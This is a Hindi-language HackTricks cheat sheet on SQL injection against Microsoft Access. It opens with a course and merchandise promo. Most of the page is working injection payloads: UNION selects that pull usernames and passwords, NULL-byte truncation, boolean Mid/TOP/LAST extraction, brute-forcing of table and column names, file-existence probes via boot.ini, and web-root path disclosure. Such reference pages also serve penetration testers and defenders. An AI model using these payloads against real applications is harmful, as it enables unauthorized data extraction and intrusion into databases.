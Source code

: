 # MS Access SQL Injection

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी को HackTricks में विज्ञापित करना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PRs सबमिट करके।

</details>

## ऑनलाइन प्लेग्राउंड

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## डेटाबेस सीमाएँ

### स्ट्रिंग कंकेटनेशन

स्ट्रिंग कंकेटनेशन `& (%26)` और `+ (%2b)` चरित्रों के साथ संभव है।
```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
### टिप्पणियाँ

MS एक्सेस में कोई टिप्पणियाँ नहीं होती हैं, लेकिन एक NULL चार के साथ क्वेरी का अंत हटाना संभव है:
```sql
1' union select 1,2 from table%00
```
यदि यह काम नहीं कर रहा है तो आप हमेशा क्वेरी की सिंटेक्स को ठीक कर सकते हैं:
```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
### Stacked Queries

वे समर्थित नहीं हैं।

### LIMIT

**`LIMIT`** ऑपरेटर **लागू नहीं है**। हालांकि, `TOP` ऑपरेटर का उपयोग करके SELECT क्वेरी के परिणामों को **पहले N सारणी की पंक्तियों तक सीमित करना संभव है**। `TOP` एक पूर्णांक को तर्क के रूप में स्वीकार करता है, जो वापस लौटाए जाने वाली पंक्तियों की संख्या को प्रतिनिधित करता है।
```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
जैसे TOP का उपयोग कर सकते हैं **`LAST`** जो **अंत से पंक्तियों को** प्राप्त करेगा।

## संघ जांच/सब-प्रश्न

एक SQLi में आप आम तौर पर किसी नए प्रश्न को कैसे निष्क्रिय करें ताकि अन्य तालिकाओं से जानकारी निकाली जा सके। MS Access हमेशा **सब-प्रश्नों या अतिरिक्त प्रश्नों में `FROM` का संकेत देने की आवश्यकता** होती है।\
इसलिए, यदि आप `UNION SELECT` या `UNION ALL SELECT` या एक `SELECT` को कोई स्थिति में ब्रैकेट के बीच निष्पादित करना चाहते हैं, तो आपको हमेशा **एक मान्य तालिका नाम के साथ `FROM` का संकेत देना होगा**।\
इसलिए, आपको एक **मान्य तालिका नाम** को जानने की आवश्यकता है।
```sql
-1' UNION SELECT username,password from users%00
```
### बराबर + उपस्थिति

{% hint style="warning" %}
यह आपको वर्तमान सारणी के मानों को बाहर निकालने की अनुमति देगा बिना तालिका के नाम को जानने की आवश्यकता के।
{% endhint %}

**MS Access** अजीब सिंटैक्स जैसे **`'1'=2='3'='asd'=false`** की अनुमति देता है। जैसा कि सामान्यत: SQL इन्जेक्शन **`WHERE`** शर्त के अंदर होगा हम उसका दुरुपयोग कर सकते हैं।

कल्पित करें कि आपके पास एक MS Access डेटाबेस में SQLi है और आपको पता है (या अनुमान लगाया है) कि एक **कॉलम का नाम उपयोगकर्ता नाम है**, और यही फ़ील्ड आप **बाहर निकालना** चाहते हैं। आप बराबर तकनीक का उपयोग करके वेब ऐप्लिकेशन के विभिन्न प्रतिक्रियाएँ जांच सकते हैं जब यह तकनीक उपयोग किया जाता है और संभावित रूप से **`Mid`** फ़ंक्शन का उपयोग करके **उपस्थिति इन्जेक्शन** के साथ सामग्री को बाहर निकाल सकते हैं।
```sql
'=(Mid(username,1,3)='adm')='
```
यदि आप **तालिका का नाम** और **कॉलम** जानते हैं तो आप `Mid`, `LAST` और `TOP` के बीच का संयोजन करके बूलियन SQLi के माध्यम से **सभी जानकारी लीक** कर सकते हैं:
```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
### टेबल नामों को ब्रूटफोर्स करना

चेनिंग इक्वल्स तकनीक का उपयोग करके आप कुछ इस प्रकार से **टेबल नामों को ब्रूटफोर्स** कर सकते हैं:
```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
आप एक और पारंपरिक तरीका भी उपयोग कर सकते हैं:
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_Feel free to check this in the online playground._

* Sqlmap common table names: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
* There is another list in [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

### स्तंभों के नामों को ब्रूट-फोर्सिंग

आप **चेनिंग बराबर ट्रिक के साथ मौजूदा स्तंभों के नामों को ब्रूट-फोर्स** कर सकते हैं:
```sql
'=column_name='
```
या **एक समूह द्वारा**:
```sql
-1' GROUP BY column_name%00
```
या आप इस तरह से **एक विभिन्न तालिका** के स्तंभों को ब्रूट-फोर्स कर सकते हैं:
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### डेटा डंप करना

हम पहले ही [**बराबरी चेनिंग तकनीक**](ms-access-sql-injection.md#chaining-equals-+-substring) **की चर्चा कर चुके हैं** **वर्तमान और अन्य तालिकाओं से डेटा डंप करने के लिए**। लेकिन इसके अलावा भी और तरीके हैं:
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
एक झलक में, क्वेरी एक "अगर-तो" विधान का उपयोग करती है ताकि सफलता के मामले में "200 OK" को ट्रिगर कर सके या अन्यथा "500 आंतरिक त्रुटि" को। TOP 10 ऑपरेटर का लाभ उठाते हुए, पहले दस परिणामों का चयन करना संभव है। LAST का उपयोग करने से केवल 10वें टपल को विचार में लिया जा सकता है। इस मान पर, MID ऑपरेटर का उपयोग करके एक सरल वर्ण तुलना करना संभव है। MID और TOP के सूचक को ठीक से बदलकर, हम सभी पंक्तियों के "उपयोगकर्ता नाम" क्षेत्र की सामग्री डंप कर सकते हैं।

### समय आधारित

[https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676\(v=technet.10\)?redirectedfrom=MSDN) की जाँच करें

### अन्य दिलचस्प फ़ंक्शन

* `Mid('admin',1,1)` पोजिशन 1 लंबाई 1 से उपस्थिति का उपस्थिति प्राप्त करें (प्रारंभिक स्थान 1 है)
* `LEN('1234')` स्ट्रिंग की लंबाई प्राप्त करें
* `ASC('A')` वर्ण का एस्की मूल्य प्राप्त करें
* `CHR(65)` एस्की मूल्य से स्ट्रिंग प्राप्त करें
* `IIF(1=1,'a','b')` अगर तो
* `COUNT(*)` आइटमों की संख्या गणना करें

## सारणीय तालिकाएँ

[**यहाँ से**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) आप तालिकाओं के नाम प्राप्त करने के लिए एक क्वेरी देख सकते हैं:
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
```markdown
हालांकि, ध्यान दें कि एसक्यूएल इन्जेक्शन को आमतौर पर पाया जाता है जहां आपको टेबल `MSysObjects` को पढ़ने का एक्सेस नहीं होता।

## FileSystem एक्सेस

### वेब रूट डायरेक्टरी पूर्ण पथ

**वेब रूट एब्सोल्यूट पथ का ज्ञान आगे के हमलों को सुविधाजनक बना सकता है**। यदि एप्लिकेशन त्रुटियों को पूरी तरह से छुपाया नहीं गया है, तो डायरेक्टरी पथ को अनकवर करना संभव है जब एक अस्थायी डेटाबेस से डेटा का चयन करने का प्रयास किया जाता है।

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access एक **त्रुटि संदेश जो वेब डायरेक्टरी पूर्ण पथनाम** शामिल है के साथ प्रतिक्रिया करता है।

### फ़ाइल गणना

निम्नलिखित हमला वेक्टर का उपयोग किया जा सकता है **दूरस्थ फ़ाइल प्रणाली पर फ़ाइल के अस्तित्व को अनुमानित करने के लिए**। यदि निर्दिष्ट फ़ाइल मौजूद है, तो MS Access एक त्रुटि संदेश को ट्रिगर करता है जिसमें बताया जाता है कि डेटाबेस प्रारूप अमान्य है:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

फ़ाइलें गणना करने का एक और तरीका **एक डेटाबेस.टेबल आइटम को निर्दिष्ट करने में समाहित है**। **अगर** निर्दिष्ट **फ़ाइल मौजूद है**, तो MS Access एक **डेटाबेस प्रारूप त्रुटि संदेश** प्रदर्शित करता है।

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb फ़ाइल नाम अनुमान

**डेटाबेस फ़ाइल नाम (.mdb)** निम्नलिखित क्वेरी के साथ अनुमानित किया जा सकता है:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

जहां **नाम\[i] एक .mdb फ़ाइल नाम** है और **realTable डेटाबेस के भीतर मौजूद एक मौजूदा टेबल** है। हालांकि MS Access हमेशा एक त्रुटि संदेश को ट्रिगर करेगा, लेकिन एक अमान्य फ़ाइल नाम और एक वैध .mdb फ़ाइल नाम के बीच भिन्न किया जा सकता है।

### .mdb पासवर्ड क्रैकर

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) एक मुफ्त उपयोगीता है जिसका उपयोग Microsoft Access 95/97/2000/XP या Jet Database Engine 3.0/4.0 के मुख्य डेटाबेस पासवर्ड को पुनर्प्राप्त करने के लिए किया जा सकता है।

## संदर्भ

* [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
```
